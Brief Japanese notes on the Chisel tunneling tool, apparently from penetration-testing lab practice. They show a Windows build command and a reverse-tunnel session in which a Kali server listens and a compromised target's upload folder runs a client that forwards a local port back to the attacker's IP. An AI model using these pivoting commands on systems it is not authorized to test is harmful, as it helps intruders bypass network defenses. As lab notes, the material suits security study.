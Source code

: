 # Chisel

https://github.com/jpillora/chisel

### windows向けbuild

```
$ GOOS=windows GOARCH=amd64 go build main.go
```

### Usage

以下の記事が詳しい

[Tunneling with Chisel and SSF](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

```
# kali
$ ./go/bin/chisel server --port 8081 --reverse
2020/11/24 19:32:20 server: Reverse tunnelling enabled
2020/11/24 19:32:20 server: Fingerprint rXKxTcVJgT8ZG5REXez4Ts++TG4A2hwK4yHN4eImp2U=
2020/11/24 19:32:20 server: Listening on http://0.0.0.0:8081

# target
C:\xampp\htdocs\gym\upload>.\main.exe client 10.10.14.3:8081 R:8888:127.0.0.1:8888                           
.\main.exe client 10.10.14.3:8081 R:8888:127.0.0.1:8888
2020/11/25 00:40:32 client: Connecting to ws://10.10.14.3:8081
2020/11/25 00:40:35 client: Connected (Latency 235.8404ms)

```
